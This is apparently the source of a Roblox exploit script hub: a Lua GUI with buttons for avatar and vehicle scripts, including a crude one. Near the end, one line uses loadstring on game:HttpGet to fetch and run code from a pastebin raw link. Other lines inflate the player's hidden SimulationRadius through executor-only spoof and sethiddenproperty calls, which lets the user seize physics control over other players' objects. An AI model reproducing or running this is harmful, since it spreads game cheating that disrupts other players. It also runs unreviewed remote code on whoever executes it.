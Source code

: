  
 
 
local ScreenGui = Instance.new("ScreenGui")
local Main = Instance.new("Frame")
local Credits = Instance.new("Frame")
local TextLabel = Instance.new("TextLabel")
local TextLabel_2 = Instance.new("TextLabel")
local TextLabel_3 = Instance.new("TextLabel")
local TextLabel_4 = Instance.new("TextLabel")
local Updates = Instance.new("Frame")
local TextLabel_5 = Instance.new("TextLabel")
local TextLabel_6 = Instance.new("TextLabel")
local TextLabel_7 = Instance.new("TextLabel")
local TextLabel_8 = Instance.new("TextLabel")
local TextLabel_9 = Instance.new("TextLabel")
local Scripts = Instance.new("ScrollingFrame")
local UIGridLayout = Instance.new("UIGridLayout")
local Hand = Instance.new("TextButton")
local SexDoll = Instance.new("TextButton")
local Naruto = Instance.new("TextButton")
local StrongStand = Instance.new("TextButton")
local NPC = Instance.new("TextButton")
local PP = Instance.new("TextButton")
local Plane = Instance.new("TextButton")
local Bike = Instance.new("TextButton")
local _911Plane = Instance.new("TextButton")
local _911 = Instance.new("TextButton")
local Car = Instance.new("TextButton")
local Shidashian = Instance.new("TextButton")
local Hoverboard = Instance.new("TextButton")
local Trashcan = Instance.new("TextButton")
local Fairy = Instance.new("TextButton")
local NoobDance = Instance.new("TextButton")
local Knight = Instance.new("TextButton")
local credits = Instance.new("TextButton")
local scripts = Instance.new("TextButton")
local updates = Instance.new("TextButton")
local Welcome = Instance.new("TextLabel")
local Hub = Instance.new("Frame")
local TextLabel_10 = Instance.new("TextLabel")
local TextLabel_11 = Instance.new("TextLabel")
 
--Properties:
 
ScreenGui.Parent = game.CoreGui
ScreenGui.ZIndexBehavior = Enum.ZIndexBehavior.Sibling
 
    loadstring(game:HttpGet("https://pastebin.com/raw/tUUGAeaH", true))()
 
spoof(game.Players.LocalPlayer, "MaximumSimulationRadius", 1000)
spoof(game.Players.LocalPlayer, "SimulationRadius", 1000)
sethiddenproperty(game.Players.LocalPlayer,"MaximumSimulationRadius",math.huge)
sethiddenproperty(game.Players.LocalPlayer,"SimulationRadius",1.0000000331814e+32)
 